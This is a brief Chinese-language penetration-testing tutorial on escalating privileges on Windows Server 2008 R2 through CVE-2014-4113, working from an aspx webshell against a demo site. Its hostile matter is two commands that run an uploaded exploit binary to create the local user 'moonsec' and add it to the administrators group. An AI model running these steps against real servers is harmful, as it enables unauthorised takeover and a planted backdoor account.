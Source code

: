 ## 1、简介

在winserver2008 r2 中 服务器默认是支持aspx的。所以默认都是可以执行一些命令。

如果没有进行补丁修复可以利用一些溢出提权工具,进行提权。

## 2、CVE-2014-4113-Exploit

这个版本的提权工具 可以对winserver2008 的系统进行溢出提权

## 3、实战

http://www.demo1.com/asp.aspx

![image-20210430001028497](../../acess/image-20210430001028497.png) 

systeminfo 这个命令查看系统信息

![image-20210430001143742](../../acess/image-20210430001143742.png)

上传文件，可以看到溢出成功

![image-20210430001829048](../../acess/image-20210430001829048.png) 

如果找不到可写目录 可以 使用遍历可写目录的脚本进行查找 

![image-20210430002101589](../../acess/image-20210430002101589.png) 

增加用户

```bash
/c C:\inetpub\wwwroot\www.demo1.com\Win64.exe "net user moonsec moonsec /add"
```

增加到用户组

```bash
/c C:\inetpub\wwwroot\www.demo1.com\Win64.exe "net localgroup administrators moonsec /add"
```

![image-20210430002640771](../../acess/image-20210430002640771.png) 